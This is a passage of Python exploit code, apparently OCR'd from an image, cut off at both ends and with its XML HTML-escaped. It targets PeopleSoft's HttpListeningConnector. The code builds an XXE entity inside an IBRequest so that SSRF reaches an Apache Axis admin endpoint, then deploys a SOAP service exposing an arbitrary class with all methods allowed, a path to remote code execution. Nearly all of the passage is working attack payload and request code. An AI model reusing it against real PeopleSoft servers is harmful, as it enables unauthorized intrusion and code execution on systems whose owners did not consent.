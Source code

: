 ```
        payload = '!--&gt;%s' % payload[:-1]
        return payload
    def soap_service_deploy(self):
        """SOAP payload to deploy the service.
        """
        return """
        &lt;ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/"
        xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
        xmlns:ns1="http://xml.apache.org/axis/wsdd/"&gt;
            &lt;ns1:service name="%s" provider="java:RPC"&gt;
                &lt;ns1:parameter name="className" value="%s"/&gt;
                &lt;ns1:parameter name="allowedMethods" value="*"/&gt;
            &lt;/ns1:service&gt;
        &lt;/ns1:deployment&gt;
        """ % (self.service_name, CLASS_NAME)
    def soap_service_undeploy(self):
        """SOAP payload to undeploy the service.
        """
        return """
        &lt;ns1:undeployment xmlns="http://xml.apache.org/axis/wsdd/"
        xmlns:ns1="http://xml.apache.org/axis/wsdd/"&gt;
        &lt;ns1:service name="%s"/&gt;
        &lt;/ns1:undeployment&gt;
        """ % (self.service_name, )
    def xxe_ssrf(self, payload):
        """Runs the given AXIS deploy/undeploy payload through the XXE.
        """
        data = """
        &lt;?xml version="1.0"?&gt;
        &lt;!DOCTYPE IBRequest [
        &lt;!ENTITY x SYSTEM "%s"&gt;
        ]&gt;
        &lt;IBRequest&gt;
           &lt;ExternalOperationName&gt;&amp;x;&lt;/ExternalOperationName&gt;
           &lt;OperationType/&gt;
           &lt;From&gt;&lt;RequestingNode/&gt;
              &lt;Password/&gt;
              &lt;OrigUser/&gt;
              &lt;OrigNode/&gt;
              &lt;OrigProcess/&gt;
              &lt;OrigTimeStamp/&gt;
           &lt;/From&gt;
           &lt;To&gt;
              &lt;FinalDestination/&gt;
              &lt;DestinationNode/&gt;
              &lt;SubChannel/&gt;
           &lt;/To&gt;
           &lt;ContentSections&gt;
              &lt;ContentSection&gt;
                 &lt;NonRepudiation/&gt;
                 &lt;MessageVersion/&gt;
                 &lt;Data&gt;
                 &lt;/Data&gt;
              &lt;/ContentSection&gt;
           &lt;/ContentSections&gt;
        &lt;/IBRequest&gt;
        """ % self.url_service(payload)
        r = self.post(
            '/PSIGW/HttpListeningConnector',
            data=self.pxml(data),
            headers=`{`
                'Content-Type': 'application/xml'
            `}`
```